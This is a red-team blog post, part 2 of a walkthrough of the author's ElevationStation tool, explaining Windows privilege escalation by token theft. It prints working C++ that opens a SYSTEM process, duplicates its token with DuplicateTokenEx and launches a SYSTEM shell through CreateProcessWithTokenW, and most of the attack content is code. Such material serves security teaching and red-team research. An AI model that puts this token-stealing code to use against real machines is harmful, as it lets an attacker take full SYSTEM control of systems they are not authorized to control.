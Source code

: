 ```yaml
---
title:  "ElevationStation - A walkthrough through the development process [PART 2]"
categories:
  - privilege escalation
tags:
  - escalation
  - psexec
  - malware
  - red team
  - win32api
  - privesc
  - privilege escalation
  - elevationstation
  - getsystem
  - metasploit
---
```


Hello again Infosec enthusiasts! Last time we talked, we discussed enabling token privileges for our current process so we can remotely access other processes via the SeDebug privilege. Let's continue on through the code shall we 😃

For review, we are here in the code:
```cpp
int DupProcessToken(DWORD pid)
{
    //enable ALL necessary privs!!!
   ➡️ setProcessPrivs(SE_DEBUG_NAME); ⬅️
    //priv enable routine complete
    BOOL bRet;
```
So we've successfully set our process privileges.  Now, let's steal the `SYSTEM` token we desire from our target process shall we?  To do so, we first need to open the remote process and get a handle on the remote process token.  Interestingly and favourably for us, we can open a remote `SYSTEM` process using the lowest level of desired access permitted, `PROCESS_QUERY_LIMITED_INFORMATION`, like so:
```cpp
proc2 = OpenProcess(PROCESS_QUERY_LIMITED_INFORMATION, FALSE, pid);
    if (!proc2)
    {
        Color(14);
        printf("[!] There was a permissions error opening process: %d w/ requested access...: %d\n", pid, GetLastError());
        Color(7);
        exit(0);
    }

    if (!OpenProcessToken(proc2, MAXIMUM_ALLOWED, &tok2))
    {
        Color(14);
        printf("[!] There was a permissions error applying the requested access to the token: %d\n", GetLastError());
        Color(7);
        exit(0);
    }
  ```
Next, we duplicate the token aquired in our token HANDLE and now we have an exact replica of the `SYSTEM` process token with all it's glorious privileges!
```cpp
if (!DuplicateTokenEx(tok2, TOKEN_ALL_ACCESS, NULL, SecurityImpersonation, TokenPrimary, &hNewToken))
    {
        Color(14);
        wprintf(L"[!] DuplicateTokenEx failed. Error: %d\n", GetLastError());
        Color(7);
    }
    else
    {
        Color(2);
        printf("[+] DuplicateTokenEx success!!!\n");
        Color(7);
    }
```

`BEFORE` Duplicating Token:
![image](https://github.com/g3tsyst3m/g3tsyst3m.github.io/assets/19558280/c05126fe-33e9-4709-82b3-7a5c4001f1f5)

and `AFTER` duplicating the token.  Notice a strikingly noteworthy difference? 😸
![image](https://github.com/g3tsyst3m/g3tsyst3m.github.io/assets/19558280/5698a405-fd3a-4343-bfdc-b7630989a2f2)

We now **OWN** a primary token with `SYSTEM` privileges, successfully duplicating the remote `SYSTEM` level process!  Now the moment you have all been waiting for... it's finally time to pop a SYSTEM shell!
![image](https://github.com/g3tsyst3m/g3tsyst3m.github.io/assets/19558280/2ef7009a-27a4-48c9-985f-57a4797d80c6)

```cpp
bRet = CreateProcessWithTokenW(hNewToken, NULL, NULL, wszProcessName, dwCreationFlags, lpEnvironment, pwszCurrentDirectory, &StartupInfo, &ProcInfo);

    if (bRet == 0)
    {
        Color(14);
        printf("[!] CreateProcessWithToken didn't cooperate...permissions maybe???\n");
        Color(7);
        printf("Return value: %d\n", GetLastError());
    }
    else
    {
        Color(2);
        printf("[+] CreateProcessWithToken worked!!!\n");
        Color(7);
        printf("Return value: %d\n", bRet);
        fflush(stdout);
        WaitForSingleObject(ProcInfo.hProcess, INFINITE);
    }
    CloseHandle(hNewToken);
    CloseHandle(proc2);
    CloseHandle(tok2);
```
![image](https://github.com/g3tsyst3m/g3tsyst3m.github.io/assets/19558280/f7733753-d908-4409-a7df-2edb94adb49f)

And there you have it friends.  This concludes part 2 of our series explaining ElevationStation and the code behind how it works.  This portion of the series has only explained stealing primary tokens from a process. Next time, I'll walk you through stealing a remote process impersonation `THREAD` token and "converting" it to a primary token to gain a SYSTEM shell within your current shell, avoiding the headache of having to deal with CreateProcessWithToken's limitations 😆

bye!
